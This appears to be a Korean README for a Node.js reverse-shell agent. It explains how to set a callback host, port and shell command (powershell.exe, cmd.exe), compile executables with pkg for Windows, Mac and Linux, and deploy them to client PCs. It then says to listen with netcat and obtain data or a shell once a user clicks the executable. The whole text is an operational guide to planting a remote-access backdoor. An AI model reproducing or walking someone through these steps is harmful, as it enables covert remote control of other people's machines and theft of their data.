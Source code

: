 ★x1 필수 설치파일
1) Node.js
    1. (windows) https://nodejs.org/ko/download/
    2. (MacOSX) brew install node
    3. (Linux) yum install node
2) PKG //에이전트 파일 생성
    1. npm install pkg --g


★x2 코드 수정(result.js)
1) 리버스쉘을 연결할 서버 호스트(HOST_Address, HOST_PORT) 등록
const HOST_Address = "naver.com" or "8.8.8.8"
const HOST_PORT = ["111"]

2) 리버스쉘 연결할 Command(COMMAND) 등록
const COMMAND  = "powershell.exe", "cmd.exe"

★x3 에이전트 파일 생성(With PKG)
1) compile.bat 실행
2) results 폴더 내 에이전트 파일 확인(windows, mac, linux)
3) 에이전트 파일 Client PC 배포

★x4 Server 측 포트 리스닝
1) nc -l HOST_PORT
2) 대기

★x5 Client PC 측 에이전트 파일 실행
1) (windows) results_win.exe 파일 클릭
2) Connected 인 경우 연결성공

★x6 Server 
1) Client 로부터 전달받은 데이터 또는 Shell 획득



